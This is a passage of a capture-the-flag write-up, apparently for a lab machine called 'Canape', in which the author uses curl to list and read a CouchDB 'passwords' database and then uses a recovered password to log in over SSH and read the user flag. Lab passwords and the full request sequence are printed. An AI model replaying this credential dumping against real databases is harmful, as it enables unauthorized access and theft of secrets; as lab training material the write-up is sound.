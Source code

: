 Nothing much interesting here.

Now the database `password`:

```
$ curl -X GET -H 'Content-Type: application/json' http://cyfun:nopass@127.0.0.1:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

Looks like there are 4 passwords here but only a reference to them.
So I just have to request those id:

```
$ curl -X GET -H 'Content-Type: application/json' http://cyfun:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}

$ curl -X GET -H 'Content-Type: application/json' http://cyfun:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}

$ curl -X GET -H 'Content-Type: application/json' http://cyfun:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}

$ curl -X GET -H 'Content-Type: application/json' http://cyfun:nopass@127.0.0.1:5984/passwords/739c5ebdf3f7a001bebb8fc438004738
{"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```

As it is all about Simpsons from the beginning, let's target the user `homer` with password `h02ddjdj2k2k2` and try to connect to ssh with those credentials.

```
$ ssh homer@10.10.10.70 -p 65535

homer@canape:~$ cat user.txt 
bce918696f293e62b2321703bb27288d
```

Success!
